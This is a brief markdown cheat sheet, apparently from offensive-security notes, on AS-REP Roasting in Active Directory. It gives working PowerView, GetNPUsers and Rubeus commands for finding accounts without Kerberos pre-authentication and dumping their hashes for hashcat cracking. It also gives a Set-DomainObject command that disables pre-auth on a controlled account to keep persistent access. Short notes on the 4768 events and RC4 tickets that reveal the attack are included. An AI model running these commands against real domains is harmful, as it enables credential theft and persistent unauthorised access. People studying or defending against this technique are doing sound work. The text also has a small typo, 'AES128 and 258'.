 ![](img/unnamed.png)
Hash format: RC4 (hashcat 18200)
- Creates 4768 event, multiple 4768 event over short time from one user can standout.
- Windows tickets uses AES128 and 258, RC4 tickets can standout.

(PowerView) Enumerating vulnerable users
```powershell
Get-DomainUser -PreauthNotRequired -verbose
```
(Get-NPUsers) AS-REP Roasting
```bash
Get-NPUsers.py <domain>/ -usersfile usernames.txt -format hashcat -outputfile hashes.asreproast -dc-ip <IP>
```
(Rubeus) AS-REP Roasting (default john format)
- Request RC4-encrypted tickets
```bash
Rubeus.exe asreproast /format:hashcat /nowrap
```
### Persistence
Force pre-auth not required for user where you have GenericAll permissions (or permission to write properties).
```powershell
Set-DomainObject -Identity <username> -XOR @{useraccountcontrol=4194304} -Verbose
```